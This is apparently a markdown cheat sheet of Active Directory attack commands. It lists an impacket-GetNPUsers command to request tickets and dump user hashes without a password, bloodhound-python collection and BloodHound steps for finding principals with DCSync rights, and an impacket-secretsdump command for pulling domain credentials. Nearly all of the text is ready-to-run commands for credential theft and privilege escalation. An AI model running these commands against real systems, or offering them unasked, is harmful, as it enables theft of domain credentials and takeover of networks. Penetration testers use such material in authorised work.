 Request TGT & Dump User Hash
`impacket-GetNPUsers fqdn/user -dc-ip ipaddress -no-pass`

Bloodhound-Python PrivEsc Mapping
`bloodhound-python -ns ipaddress -d fqdn -c All -u user -p pass`

BloodHound Analysis
```
sudo neo4j start

./BloodHound
3 lines > Database Info > (Scroll Down) > Clear Sessions
3 lines > Database Info > (Scroll Down) > Clear Database
Upload Data (Select JSON files)

Common Strategies
3 lines > Analysis > Dangerous Privileges > Find Principals with DCSync Rights
```

Secrets Dump (Impacket)
`impacket-secretsdump domain/username@ipaddress` (Enter user password at prompt)



